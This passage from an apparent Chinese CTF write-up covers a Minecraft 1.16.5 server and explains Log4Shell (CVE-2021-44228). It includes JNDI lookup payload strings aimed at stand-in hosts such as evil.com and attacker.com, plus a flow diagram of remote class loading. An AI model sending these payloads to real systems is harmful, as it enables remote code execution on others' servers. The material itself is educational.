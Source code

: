 --append-domain: 将url添加自动添加到字典后
-r: 跟踪重定向
-k: 不进行tls验证

### Minecraft

端口25565是Minecraft游戏服务器的默认端口，包括nmap的扫描结果也显示了此处运行的是Minecraft 1.16.5版本，searchsploit当中只搜索到一个Minecraft启动器的潜在利用，并且版本还是1.6.61的

搜索之后找到Minecraft 1.16.5版本存在log4shell，这是一个发布于2021年的核弹级漏洞

#### log4shell

log4shell是一个log4j2框架存在的RCE漏洞，编号：**CVE-2021-44228**，影响 Apache Log4j 2 版本 `< 2.15.0`

##### log4j

log4j本身是一个Java的高性能日志框架，框架本身使用了JNDI这个Java提供的，用于Java程序访问命名服务(DNS, LDAP)的API接口

##### JNDI

JNDI是Java提供的基本API，用于让Java程序访问命名服务，JNDI存在注入，支持`${jndi:ldap://evil.com/x}`这样的语法，从而使得Log4j2解析日志时，解析了ldap地址的恶意内容，实现RCE


它的原理可以概括为：

> 利用 Log4j2 中对日志内容进行 **JNDI 动态解析** 的功能，注入恶意 LDAP 请求 → 远程加载并执行攻击者提供的 Java 类（字节码） → **完全控制目标服务器**。

##### 漏洞成因

log4j的lookups功能可以用来查找变量，比如`logger.info("User logged in: {}", "${java:version}")`，这样可以输出Java版本，但是它也支持使用`${jndi:ldap://evil.com/obj}`这样的写法来调用jndi并且通过ldap协议调，当这些内容被加入日志的时候，恶意代码立即执行

这也就意味着一切可以写入日志的行为都会触发这个漏洞，并且因为支持使用ldap这样的应用广泛的协议，比如windows AD域的实现，ldap协议就是其中关键的一环，基于此。log4shell影响范围之广，利用方式简单，并且可以称之为是核弹级的漏洞

##### 漏洞流程

```
攻击者发送 payload：
    ${jndi:ldap://attacker.com/Exploit}

↓ 被日志写入（如用户名、User-Agent、错误信息）

Log4j2 解析字符串中的 ${} → 调用 JNDI 解析

↓ JNDI 请求 ldap://attacker.com/Exploit

攻击者恶意 LDAP 服务器响应 → 返回包含远程类加载路径的对象

↓ Log4j 通过 Java 原生机制加载远程类（RCE）

攻击者代码执行成功
```

关于这个漏洞已验证的攻击面，可以查看这个[github仓库](https://github.com/YfryTchsGD/Log4jAttackSurface)
